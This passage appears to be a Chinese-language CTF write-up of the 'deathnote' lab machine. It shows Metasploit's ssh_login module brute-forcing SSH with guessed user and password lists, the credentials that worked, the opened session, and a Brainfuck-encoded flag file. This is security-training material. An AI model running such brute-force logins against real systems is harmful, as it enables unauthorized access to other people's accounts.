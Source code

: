 

根据 user.txt 和 notes.txt 猜测可能是账号和密码表。

```
user.txt

KIRA
L
ryuk
...
```

```
notes.txt

death4
death4life
death4u
...
```



尝试进行 ssh 登录

```
msf6 > use auxiliary/scanner/ssh/ssh_login 

msf6 auxiliary(scanner/ssh/ssh_login) > hosts -R 
RHOSTS => 10.10.10.101

msf6 auxiliary(scanner/ssh/ssh_login) > set USER_FILE user.txt 
USER_FILE => user.txt

msf6 auxiliary(scanner/ssh/ssh_login) > set PASS_FILE notes.txt
PASS_FILE => notes.txt

msf6 auxiliary(scanner/ssh/ssh_login) > run 
[*] 10.10.10.101:22 - Starting bruteforce

[+] 10.10.10.101:22 - Success: 'l:death4me' 'uid=1000(l) gid=1000(l) groups=1000(l),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),109(netdev),111(bluetooth) Linux deathnote 4.19.0-17-amd64 #1 SMP Debian 4.19.194-2 (2021-06-21) x86_64 GNU/Linux '
[*] SSH session 1 opened (10.10.10.10:36185 -> 10.10.10.101:22) at 2025-03-05 02:12:59 +0000
uname -a 
Linux deathnote 4.19.0-17-amd64 #1 SMP Debian 4.19.194-2 (2021-06-21) x86_64 GNU/Linux
```



查找主机上的文件，/home/l/user.txt 文件内容为 Brainfuck 编码

```
++++++++++[>+>+++>+++++++>++++++++++<<<<-]>>>>+++++.<<++.>>+++++++++++.------------.+.+++++.---.<<.>>++++++++++.<<.>>--------------.++++++++.+++++.<<.>>.------------.---.<<.>>++++++++++++++.-----------.---.+++++++..<<.++++++++++++.------------.>>----------.+++++++++++++++++++.-.<<.>>+++++.----------.++++++.<<.>>++.--------.-.++++++.<<.>>------------------.+++.<<.>>----.+.++++++++++.-------.<<.>>+++++++++++++++.-----.<<.>>----.--.+++..<<.>>+.--------.<<.+++++++++++++.>>++++++.--.+++++++++.-----------------.
```
